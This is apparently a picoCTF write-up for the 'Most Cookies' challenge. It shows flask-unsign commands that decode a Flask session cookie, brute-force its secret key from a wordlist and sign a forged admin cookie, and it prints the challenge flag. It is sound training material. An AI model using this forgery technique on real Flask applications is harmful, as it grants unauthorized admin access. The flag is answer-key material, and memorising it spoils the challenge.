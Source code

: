 # Most Cookies

###### Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](server.py) http://mercury.picoctf.net:35697/

![site home page](img1.png)

For every text we enter the response is always the same

![error code](img2.png)

So let's go to analyze the [server.py](server.py) file

The site use a flask cookie so we can extract the cookie and try to decode it

```console
$ flask-unsign  -d -c eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YGHToA.jU3NZ3vRLx_5wWDCeqmR26hpOgo 
{'very_auth': 'blank'}
```

Going into the [server.py](server.py) we see that if `very_auth == admin` we get the flag.txt page, so let's find the key using the [word list](cookie) inside [server.py](server.py), encode the new cookie and send it

```console
$ flask-unsign -u -c eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YGHToA.jU3NZ3vRLx_5wWDCeqmR26hpOgo --wordlist cookie 
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'chocolate chip'
$ flask-unsign --sign -c "{'very_auth': 'admin'}" --secret 'chocolate chip' --legacy 
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YGHPfQ.kcmz-v9UdTrg9jWUK9ef0fVtTdc
```

![flag](img3.png)

#### **FLAG >>** `picoCTF{pwn_4ll_th3_cook1E5_22fe0842}`